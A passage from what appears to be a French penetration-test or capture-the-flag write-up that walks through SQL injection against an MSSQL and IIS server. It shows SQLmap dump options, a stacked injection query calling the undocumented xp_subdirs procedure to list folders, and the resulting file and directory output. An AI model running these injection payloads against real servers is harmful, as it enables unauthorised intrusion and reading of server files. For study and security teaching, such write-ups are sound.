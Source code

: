 ```python

    print(response.status_code, cmd)
    sleep(0.1)
```

Pour récupérer le contenu de la table (et donc le contenu du fichier) il suffit d'utiliser les options *-D web -T yoloout2 --dump* de *SQLmap* :  

```plain
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Armé de cette nouvelle fonctionnalité je me suis efforcé d'obtenir le contenu du fichier *applicationhost.config* qui est un peu le *httpd.conf* ou *apache2.conf* d'IIS. Malheureusement la récupération de ce fichier normalement situé dans *system32\inetsrv* ou *system32\inetsrv\config* a échoué. Je suppose que l'accès à ce fichier est soit refusé soit bloqué car déjà ouvert par IIS...  

L'objectif était de retrouver l'emplacement exact de la racine web sur le serveur qui de toute évidence n'était pas exactement *c:\inetpub\wwwroot*.

Shoruyken
---------

A ce stade toujours pas de *xp\_cmdshell*, mais qu'en est-il des autres procédures xp\_\* ?  

MSSQL dispose de deux procédures de listing de dossiers qui ne sont pas documentées : *xp\_subdirs* et *xp\_dirtree*.  

Avec la requête *DROP TABLE yoloout2; CREATE TABLE yoloout2 (subdir varchar(512)); INSERT INTO yoloout2 EXEC master.dbo.xp\_subdirs 'c:\inetpub';* on crée une table dont les entrées sont les noms des sous-dossiers de *inetpub* :

```plain
Database: web
Table: YOLOOUT2
[5 entries]
+---------+
| SUBDIR  |
+---------+
| custerr |
| history |
| logs    |
| temp    |
| wwwroot |
+---------+
```

Enfin ! On répète l'opération pour *wwwroot* :  

```plain
+---------------+
| SUBDIR        |
+---------------+
| aspnet_client |
| css           |
| images        |
| members       |
| street        |
+---------------+
```
